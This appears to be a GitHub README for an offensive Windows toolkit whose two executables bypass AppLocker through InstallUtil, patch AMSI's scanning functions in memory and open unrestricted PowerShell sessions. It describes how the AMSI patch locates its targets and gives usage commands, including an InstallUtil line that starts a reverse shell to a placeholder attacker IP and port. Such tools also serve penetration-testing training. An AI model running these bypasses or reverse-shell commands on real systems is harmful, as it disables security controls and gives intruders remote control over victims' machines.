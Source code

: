 # Applocker Bypass


## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `altBypass` | EXE | Alternate custom ps-runspace for use in evading Application whitelisting |
| `psBypass`  | EXE | For use with InstallUtil. Contains AMSI binary patch. Will start an interactive powershell session in FullLanguageMode. |

## `altBypass`
Alternate custom PS-runspace for use in evading Application whitelisting.  Will start an interactive powershell session in **FullLanguageMode** and functions better over remote shells than `psBypass`.  Combination of [superhac/InteractiveRunspace](https://github.com/superhac/OSEP/blob/main/InteractiveRunspace.cs) and [calebstewart/bypass-clm](https://github.com/calebstewart/bypass-clm) with a dynamic patch for AMSI.  

The AMSI patch works by locating `AmsiUacInitialize` and then locating the actual functions we want to patch (`AmsiScanBuffer` and `AmsiScanString`) by grabbing the 1000 bytes preceding `AmsiUacInitiliaze` and then locating the functions within them by byte array. This *avoids the issue of hardcoding the offsets* of the target functions from `AmsiUacInitialize` when the location of the functions change depending on Windows version. 

Has builtin InstallUtils bypass ability.

I have also added the reverse shell functionality as implemented in [padovah4ck/PSByPassCLM](https://github.com/padovah4ck/PSByPassCLM). You can now get PowerShell FullLanguage Mode reverse shells, as a new process!

### Usage
To run a PS FullLanguageMode Session in your current console:
```cmd
# without installutil applocker bypass
altbypass.exe

# with bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U <path>\altbypass.exe
```

To get a reverse shell:
```cmd
# without bypass
altbypass.exe

# with bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<ATTACKER_IP> /rport=<ATTACKER_PORT> /U <path>\altbypass.exe &
```



## `psBypass`
For use with InstallUtil. Contains AMSI binary patch, but it uses harcoded offsets from `AmsiUacInitialize` of 96 bytes & 352 bytes to look for `AmsiScanBuffer` and `AmsiScanString`. Will start an interactive powershell session in FullLanguageMode.

